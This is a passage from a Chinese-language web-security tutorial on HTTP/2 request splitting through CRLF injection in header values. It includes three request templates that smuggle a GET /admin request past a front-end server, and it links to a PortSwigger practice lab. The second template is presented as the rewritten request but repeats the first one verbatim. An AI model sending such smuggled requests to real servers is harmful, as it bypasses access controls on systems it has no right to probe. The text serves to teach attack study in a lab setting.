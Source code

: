 ## 请求拆分

### 基本介绍

从上面的响应队列中毒中我们了解到了如何将一个HTTP请求拆分成为两个完整的请求，上面的例子拆分发生在消息体内部，但是当使用HTTP/2降级时，我们也可以使拆分发生在消息头中，例如：您甚至可以使用GET请求。

```c
:method GET
:path   /
:authority  vulnerable-website.com
foo 
bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

### 重写请求

在报头中拆分请求时，我们需要了解前端服务器如何重写请求并在手动添加任何HTTP/1报头时考虑这一点，否则其中一个请求可能缺少强制标头，例如：您需要确保后端收到的两个请求都包含host头，在降级过程中前端服务器通常会去除:authority伪标头并将其替换为新的HTTP/1主机标头，例如下面的重新请求：

```c
:method GET
:path   /
:authority  vulnerable-website.com
foo 
bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

在重写过程中一些前端服务器会将新的主机头附加到当前头列表的末尾，就HTTP/2前端而言是位于在foo头之后，需要注意的是请求在后端被拆分的点之后，这意味着第一个请求根本没有host，而走私的请求有两个，在这种情况下您需要定位注入的host头，以便发生分割时它会出现在第一个请求中。

```c
:method GET
:path   /
:authority  vulnerable-website.com
foo 
bar\r\n
Host: vulnerable-website.com\r\n
\r\n
GET /admin HTTP/1.1
```

### 靶场示例

靶场地址：[https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection "https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection")
